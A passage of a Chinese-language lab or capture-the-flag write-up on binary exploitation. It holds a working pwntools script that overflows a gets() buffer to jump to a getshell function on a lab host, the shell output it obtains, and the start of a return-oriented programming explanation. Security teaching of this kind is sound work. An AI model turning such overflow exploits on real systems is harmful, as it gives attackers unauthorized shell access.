 并得到了getshell函数的地址    __text:0804853D getshell__

注意到了危险函数gets(),利用gdb进行动态调试

> pwndbg> stack 30
> __00:0000│__ esp    0xffffd170 —▸ 0xffffd18c ◂— 'AAAAAAAAAA'
> ... ↓
> __07:001c│__ eax    0xffffd18c ◂— 'AAAAAAAAAA'
> ... ↓
> __0e:0038│__ ebp    0xffffd1a8 ◂— 0x0

从eax开始向ebp的位置填充，总计需要0x38-0x1c+4的垃圾数据和一个4字节的返回地址（即已经获得的getshell函数的地址），接下来编写脚本即可。

```py
from pwn import*
io=remote("10.214.160.13",11001)  #这是远程连接的方法
#io=process("./aaa1")             #这是本地连接的方法
io.recv()                         #recv()接受信息
payload=b"a"*32+p32(0x0804853D)   
io.sendline(payload)              #注意要用sendline(比send函数多一个换行符)
io.interactive()				  #interactive()得到shell

```

此处直接攻击远程靶机，并成功获取控制权

>task$ python3 aaa1.py
>[+] Opening connection to 10.214.160.13 on port 11001: Done
>[*] Switching to interactive mode
>Input your payload: 
>aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa=\x85\x04$ ls
>bin
>boot
>data
>dev
>......

__自此完成一次基本的攻击。__

## 漏洞2--返回导向编程    Return Oriented Programming

### 2.1 漏洞利用原理

上一个漏洞属于较为特殊的情况，当原程序中不存在getshell()这样的后门函数时，需要我们自己手动构造一个函数来实现漏洞利用。

已知执行execve("/bin/sh",NULL,NULL)这个函数即可拿到程序的执行权，将其翻译为汇编语言即为以下代码

``` assembly
mov eax, 0xb
mov ebx, [“/bin/sh”] 
mov ecx, 0
mov edx, 0
int 0x80
```

但我们并没有这样的一段完整的函数，所以我们需要利用gadget技术得到一些原程序中存在的语句块来实现上述函数。如果我们可以得到以下语句的返回地址（gadget的定义为a small mechanical or electronic device or tool, especially an ingenious or novel one.与本题的思路十分一致）

